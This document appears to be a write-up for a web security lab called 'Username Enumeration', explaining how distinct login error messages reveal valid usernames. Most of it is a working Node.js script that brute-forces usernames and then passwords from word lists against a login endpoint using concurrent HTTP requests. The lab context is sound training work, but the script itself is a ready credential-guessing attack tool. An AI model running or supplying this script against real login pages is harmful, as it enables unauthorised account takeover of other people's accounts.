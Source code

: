 # 1 - Username Enumeration

### Notes

The app returns "Invalid username" or "Incorrect password" rather than a generic authentication failure message, allowing a valid username to be brute forced from a word list, followed by the valid password for this username. The trickiest part about this challenge is writing the script, but it is easy to solve using Burp Suite's "Intruder".

### Scripted Solution

```javascript
const fs = require('fs')
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Loops through provided `wordList` by `step`, calling the `axiosCallback` and
 * checking result against the `matchCallback`.
 */
async function bruteForce(wordList, step, axiosCallback, matchCallback) {
  const wordListLength = wordList.length
  let from = 0,
    to = step
  let resultsAccumulator = []

  while (true) {
    const wordsSlice = wordList.slice(from, to)

    await Promise.all(wordsSlice.map((item) => axiosCallback(item))).then(
      (results) => {
        results.forEach((result) => {
          const match = matchCallback(result)
          if (match) resultsAccumulator.push(match)
        })
      }
    )

    if (to >= wordListLength) break

    from = to
    to = to + step > wordListLength ? wordListLength : to + step
  }

  return resultsAccumulator
}

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL
  const loginUrl = `${labUrl}/login`
  const usernamesTxt = fs.readFileSync(`./usernames.txt`, 'utf8')
  const usernames = usernamesTxt.split('\n')
  const passwordsTxt = fs.readFileSync(`./passwords.txt`, 'utf8')
  const passwords = passwordsTxt.split('\n')

  console.log('Brute forcing valid usernames...')
  const validUsernames = await bruteForce(
    usernames,
    10,
    (item) =>
      axios
        .post(loginUrl, `username=${item}&password=password`)
        .then((res) => ({ username: item, res: res.data })),
    (result) => {
      const { username, res } = result
      if (!res.match(/Invalid username/)) return username
      return false
    }
  )
  console.log(validUsernames)

  console.log(
    `Brute forcing valid password for username: ${validUsernames[0]}.`
  )
  const validPasswords = await bruteForce(
    passwords,
    10,
    (item) =>
      axios
        .post(loginUrl, `username=${validUsernames[0]}&password=${item}`)
        .then((res) => ({ password: item, res: res.data })),
    (result) => {
      const { password, res } = result
      if (!res.match(/Incorrect password/)) return password
      return false
    }
  )
  console.log(validPasswords)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
